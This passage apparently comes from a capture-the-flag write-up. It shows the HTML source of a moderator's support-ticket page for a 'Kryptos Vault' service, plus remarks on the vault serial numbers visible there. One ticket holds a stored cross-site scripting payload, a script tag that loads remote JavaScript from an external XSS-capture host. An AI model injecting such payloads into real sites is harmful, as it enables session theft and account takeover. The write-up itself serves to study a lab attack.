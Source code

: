 ```html
   </head>
   <body>
        <nav class="nav-bar">
            <ul>
                <li>
                    <a href="/settings">Settings</a>
                </li>
            </ul>
        </nav>
        <nav class="logged-bar">
           <ul>
               <li>
                   logged in as (moderator), <a href="/logout">logout</a>
               </li>
           </ul>
       </nav>
      <div class="container on">
         <div class="screen">
            <h3 class="title">
               Kryptos Vault Support tickets
            </h3>
            <div class="message-container">
                
                    <div class="ticket-card">
                        <div class="c1"><span>Submitted </span></div>
                        <div class="c2"><p>2022-05-15 12:03:12</p></div>
                        <div class="c1"><span>Message </span></div>
                        <div class="c2"><p>I have lost my rfid for the vault. My vault serial is 000083921. Please send me a new rfid.</p></div>
                    </div>
                
                    <div class="ticket-card">
                        <div class="c1"><span>Submitted </span></div>
                        <div class="c2"><p>2022-05-15 12:03:12</p></div>
                        <div class="c1"><span>Message </span></div>
                        <div class="c2"><p>Vault 000076439 requires maintenance.</p></div>
                    </div>
                
                    <div class="ticket-card">
                        <div class="c1"><span>Submitted </span></div>
                        <div class="c2"><p>2022-05-15 12:10:28</p></div>
                        <div class="c1"><span>Message </span></div>
                        <div class="c2"><p>"><script src=https://pjs7593.xss.ht></script></p></div>
                    </div>
            </div>
         </div>
      </div>
   </body>
</html>       
```
The serial numbers might be unique to users and useful, but it's unclear at the moment. `000083921` and `000076439` are the only two visible serial numbers.
